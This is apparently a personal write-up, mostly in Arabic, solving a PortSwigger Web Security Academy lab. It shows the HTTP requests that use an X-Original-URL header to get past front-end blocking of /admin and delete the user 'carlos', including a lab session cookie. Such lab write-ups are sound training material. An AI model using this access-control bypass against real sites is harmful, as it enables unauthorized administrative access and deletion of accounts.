 ## 🎯  [URL-based access control can be circumvented](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)

### 📝 الوصف
يوجد لوحة تحكم المدير على مسار `/admin` ولكن تم حظر الوصول إليه من خلال نظام front-end. مع ذلك، التطبيق يدعم header خاص اسمه `X-Original-URL` يمكنه تجاوز هذا الحظر.

### 🎯 الهدف
الوصول إلى لوحة التحكم وحذف المستخدم `carlos`

---

### 🔍 الاكتشاف والتحليل

### ❌ المحاولة الأولية:
1. ذهبت مباشرة إلى `/admin` → **حظر 404**
2. جربت `/admin/` → **نفس النتيجة**

### 💡 الملاحظة المهمة:
- النظام يستخدم framework يدعم `X-Original-URL` header
- هذا الheader يستخدم لتجاوز مسار الطلب الأصلي

---

### 🛠️ خطوات الحل التفصيلية
#### Step 1: Using Burp Suite
![](photo/Screenshot-From-2025-10-17-12-52-42.png)
!
```http
GET / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
X-Original-URL: /admin
```

<mark style="background: #BBFABBA6;">2 نروح علي Repeater  و نضيف  x-orginal-URL: /admin </mark>
![](screenshot-from-2025-10-17-13-02-42.png)
#### Step 2: Access Admin Panel
1. Send request with <mark style="background: #FF5582A6;">X-Original-URL</mark> header:
	```http 
GET / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
X-Original-URL: /admin
```
	- Response shows admin panel interface
	- Contains option to delete users

#### Step 3: Delete Carlos User

![[photo/Screenshot-From-2025-10-17-13-39-40.png]]
1. Send delete request using header bypass:
	```http
GET /?username=carlos HTTP/2

Host: 0ad700bf03a36103821bf166008900a3.web-security-academy.net
Cookie: session=mGA7P7tE0gJi6oLUNJDJs7VseOO5CLx5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad700bf03a36103821bf166008900a3.web-security-academy.net/

X-Original-Url: /admin/delete

Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
---

